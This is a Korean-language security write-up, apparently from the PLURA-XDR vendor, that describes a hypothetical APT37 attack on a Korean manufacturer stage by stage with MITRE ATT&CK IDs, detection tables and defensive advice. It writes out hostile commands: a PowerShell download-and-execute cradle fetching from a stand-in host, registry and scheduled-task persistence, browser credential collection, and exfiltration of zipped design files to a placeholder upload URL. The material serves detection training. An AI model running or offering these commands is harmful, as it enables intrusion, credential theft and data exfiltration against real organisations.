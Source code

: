 # APT37(ScarCruft) — 가상의 Windows 침투 시나리오

## 가정 환경

* **대상**: 한국 소재 제조업 본사 네트워크 (Windows 10/11 클라이언트)
* **모니터링**: 기본 이벤트 로그 + Sysmon v13 구성
* **보안 설정**: UAC 기본값 유지 (EnableLUA = 1)
* **목표**: R\&D 설계 도면 탈취 후 내부 중요 PC 파괴

---

## 1️⃣ 초기 침투 (Initial Access / Execution)

| 순서  | TID                                   | 행위                          |
| --- | ------------------------------------- | --------------------------- |
| 1-1 | T1566.001 – Spear Phishing Attachment | 팀장에게 악성 한글(HWP) 문서 첨부 메일 발송 |
| 1-2 | T1204.002 – User Execution            | 사용자가 문서 열람, 매크로 실행          |
| 1-3 | T1105 – Ingress Tool Transfer         | 최종 백도어(Dolphin) 다운로드 및 실행   |

```powershell
powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://cdn.evilsite.kr/dropper.ps1')"
```

---

## 2️⃣ 권한 상승·지속화 (Privilege Escalation / Persistence)

| 순서  | TID                                     | 행위                         |
| --- | --------------------------------------- | -------------------------- |
| 2-1 | T1548.002 – Bypass User Account Control | UAC 우회 (Akagi + fodhelper) |
| 2-2 | T1547.001 – Registry Run Keys           | Run 키 등록으로 사용자 로그인 시 자동 실행 |

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /t REG_SZ /d "%APPDATA%\update.exe"
```

\| 2-3   | T1053.005 – Scheduled Task              | SYSTEM 권한 확보 위한 예약 작업 생성      |

```cmd
schtasks /Create /RU SYSTEM /SC ONSTART /TN "SvcInit" /TR "%APPDATA%\update.exe"
```

---

## 3️⃣ 시스템·사용자 조사 (Discovery)

| 순서  | TID                                  | 행위                       |
| --- | ------------------------------------ | ------------------------ |
| 3-1 | T1082 – System Information Discovery | OS, 패치, 도메인 정보 수집        |
| 3-2 | T1033 – System Owner/User Discovery  | 사용자 정보 및 권한 확인           |
| 3-3 | T1057 – Process Discovery            | 백신 및 보안 프로세스 확인          |
| 3-4 | T1120 – Peripheral Device Discovery  | 외장 USB 탐지 (설계도 백업 여부 확인) |

```powershell
powershell -c "Get-PnpDevice -Class USB"
```

---

## 4️⃣ 자격 증명·데이터 수집 (Credential Access / Collection)

| 순서  | TID                                       | 행위              |
| --- | ----------------------------------------- | --------------- |
| 4-1 | T1555.003 – Credentials from Web Browsers | Chrome 저장 암호 덤프 |

```powershell
powershell -ep bypass -c "(Get-ItemProperty -Path 'HKCU:\Software\Google\Chrome\...') > '%TEMP%\chrome_creds.txt'"
```

\| 4-2   | T1005 – Data from Local System            | CAD/PDF 도면 검색 및 ZIP 압축 |

```powershell
$dir="C:\Projects"; $zip="$env:TEMP\designs.zip"; Compress-Archive -Path $dir\*.pdf,$dir\*.dwg -DestinationPath $zip
```

\| 4-3   | T1123 – Audio Capture                     | 회의 녹음 15초                |

```cmd
"%ProgramFiles%\AudioRecorder.exe" -out "%TEMP%\meeting.wav" -d 15
```

---

## 5️⃣ C2 통신·데이터 유출 (Command & Control / Exfiltration)

| 순서  | TID                               | 행위               |
| --- | --------------------------------- | ---------------- |
| 5-1 | T1071.001 – Web Protocols (HTTPS) | CDN 기반 HTTPS 터널링 |

```cmd
bitsadmin /transfer myDownload /download /priority normal "https://cdn.dropzone.net/beacon" "%TEMP%\b.dat"
```

\| 5-2   | T1105 – Ingress Tool Transfer     | 설계도 압축본 업로드     |

```powershell
Invoke-RestMethod "https://cdn.dropzone.net/upload" -InFile "$env:TEMP\designs.zip"
```

---

## 6️⃣ 파괴 행위 (Impact)

| 순서  | TID                            | 행위                 |
| --- | ------------------------------ | ------------------ |
| 6-1 | T1529 – System Shutdown/Reboot | 강제 재부팅 → 암호화 전환 시도 |

```cmd
shutdown /r /t 1 /f
```

\| 6-2   | T1027 – Obfuscated Files or Information | 랜섬노트 실행 Base64 인젝션 |

```powershell
powershell -c "IEX ([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('base64encodedransomscript==')))"
```

---

## 📌 탐지·수색 포인트 요약

| 단계     | Sysmon/Event ID           | 탐지 키워드                         |
| ------ | ------------------------- | ------------------------------ |
| 권한 상승  | Sysmon 1 (ProcessCreate)  | `Akagi64.exe`, `fodhelper.exe` |
| 시스템 조사 | Sysmon 1 / 4688           | `systeminfo`, `wmic`, `whoami` |
| 자격 탈취  | Event ID 4656             | `Chrome Login Data` 접근         |
| 외부 전송  | Sysmon 3 (NetworkConnect) | 외부 443 → SNI: `cdn-*`          |
| 시스템 파괴 | Event ID 1074             | `Shutdown Type: restart`       |

---

## 🔒 PLURA-XDR 대응 방법 요약 및 참고 자료

* 의심스러운 HWP/LNK 첨부 파일 차단 및 정밀 검사
* PowerShell IEX 및 Base64 인코딩 탐지 정책 강화
* Sysmon + PLURA-XDR 기반의 로그 상관 분석
* PLURA-EDR 통한 Akagi 실행·UAC 우회 패턴 탐지
* LNK 및 예약 작업 생성 탐지 정책 설정 필수

👉 [자세히 보기](plura_waf_xdr_detection.md)

---
